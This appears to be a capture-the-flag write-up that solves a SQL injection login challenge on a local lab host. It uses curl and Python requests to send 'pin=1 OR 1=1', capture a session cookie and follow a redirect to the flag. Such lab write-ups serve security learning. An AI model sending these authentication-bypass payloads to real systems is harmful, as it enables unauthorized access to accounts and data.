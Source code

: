 # SQLi 1

First run a request to see what’s happening:

```curl -v -d “userid=guest&pin=1337” http://challenge.localhost:80/gateway```

After running the request, it issues a cookie and says it should be redirected. After trying to follow the redirects by rerunning the code with “-L” it caused an infinite loop, meaning it’s expecting the cookie on the redirecting POST request. So lets copy the cookie:

```curl -c cookie -d “userid=admin&pin=1 OR 1=1” http://challenge.localhost:80/gateway```

Then use the cookie to follow the redirect to the flag:

```curl -L -b cookie “http://challenge.localhost:80/gateway```

Or the python version, set it up to be reusable:
``` python
import requests

path = “/gateway”
url = f”http://challenge.localhost{path}”

data = {
“userid”: “admin”,
“pin”: “1 or 1=1”
}

response = requests.post(url=url, data=data)
print(response.text)
```
```python3 requesting.py```

Or in terminal:

```Python```
```
>>> import requests
>>> url = "http://challenge.localhost/gateway"
>>> data = {"userid":"admin", "pin":"1 or 1=1"}
>>> r = requests.post(url=url, data=data)
>>> print(r.text)
```
